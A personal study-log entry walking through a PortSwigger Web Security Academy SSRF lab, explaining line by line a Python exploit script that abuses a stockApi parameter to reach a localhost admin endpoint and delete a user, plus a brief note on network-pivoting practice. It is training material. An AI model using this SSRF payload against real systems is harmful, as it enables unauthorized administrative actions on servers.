 "Sometimes in life, you have to make a selfish decision and do what's best for you." - Saquon Barkley

# Day-14 Summary:

### Things Done Today:

- [X] Wreath Network: Started with Pivoting sub-divided topic and done until task 10 out of 46. 
 - There are more 5 tasks in this Pivoting sub-topic, after doing so, will write a whole good summary about pivoting here, which means it's tomorrow. 

- [X] SSRF Lab #1: [Web-Security Academy](https://portswigger.net/web-security/) -- PortSwigger; [Rana Khalil's Course](https://ranakhalil.teachable.com/);
   - Done with lab#1 today: It was pretty easy and understood the python code [Check out the [full code in good format here](/Python/SSRF-lab1.py)], which I'm gonna tryna explain you people here below. 

1. Importing all the modules. Also disabling the warnings incase of not having the valid certificate.

```
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
2. This thing is total optional, but in-order to check where you went wrong if the script doesn't work, this is real helpful thing to add onto the script.

```
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
```
3. [If name-main](https://www.freecodecamp.org/news/if-name-main-python-example/): Check out this article to know more about why do we add this. 
   - My explanation: In simple terms, the python interpreter always checks for this `__name__` function line if it is set to the same. it will execute whatever is mentioned to be executed under it. Also since python is interpreted lang, it checks code line by line. 

```
if __name__ == "__main__":
    main()
```
4. Defining the main function. Here if the arguments by the user is not in the correct format or length, the whole program won't execute, otherwise will execute the program, which here is deleting the user Carlos as mentioned to-do in the lab-01 of SSRF.

```
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)
```

5. After defining the main user, it's time now to define the `delete_user(url)`. The goal of the program is to get the admin access and then delete the user named carlos. While looking to the source code, we got the admin path which was `/admin` and while looking at the admin source code we got the delete user path `/delete?username=carlos`. So here the below code make's the resuest to the url mentioned by the user while excuting this script and does the task.

```
def delete_user(url):
    payload = 'http://localhost/admin/delete?username=carlos' #since we have to delete the carlos username
    check_stock_path = '/product/stock' 
    params = {'stockApi': payload} #which is in the stock request
    r = requests.post(url + check_stock_path, proxies=proxies, verify=False, data=params)
```
6. Now until above the if script executed, the user would have be deleted but what if we want to check if our script worked is correct or not, hence below code. Here we make an another request to the `/admin` path and in the response the script will check for keyword `User deleted successfully`, if mentioned then it is a success, if not - unsuccess. 

```
   # Now checking if it our script actually worked or not - which is here deleting the user name carlos 
    payload2 = 'http://localhost/admin'
    params2 = {'stockApi': payload2}
    r = requests.post(url + check_stock_path, proxies=proxies, verify=False, data=params2)
    if "User deleted successfully" in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was Unsuccessful.")
```
<img width="975" alt="Screenshot 2021-10-12 at 2 45 13 PM" src="https://user-images.githubusercontent.com/56188454/136928028-af5b83df-95d0-4138-aa05-8be47a4fed2e.png">


